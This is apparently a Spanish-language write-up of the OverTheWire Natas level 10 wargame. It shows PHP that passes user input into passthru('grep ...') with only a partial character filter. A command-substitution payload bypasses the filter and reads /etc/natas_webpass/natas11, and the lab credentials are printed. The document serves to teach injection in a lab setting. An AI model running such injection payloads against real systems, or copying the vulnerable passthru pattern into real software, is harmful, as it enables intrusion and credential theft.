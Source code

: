 # Natas 10

#### URL: http://natas10.natas.labs.overthewire.org/

#### Credenciales: natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

El nuevo codigo ahora escapa ciertos caracteres utiles para RCE:

``` php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Una forma de lograr esto es usando un subcomando como $(ls), entonces se expande a grep -i [fichero1] [fichero2] [fichero3] [fichero4] dictionary.txt entonces probando `c $( ls /etc/natas_webpass/natas11)`, con c siendo un caracter valido que contenga la contraseña, conseguimos las credenciales.

![2025-03-19-221036_883x650_scrot](https://github.com/user-attachments/assets/de2e7e0d-4e02-4ab9-baa2-d6d2465db089)

`natas11:natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`




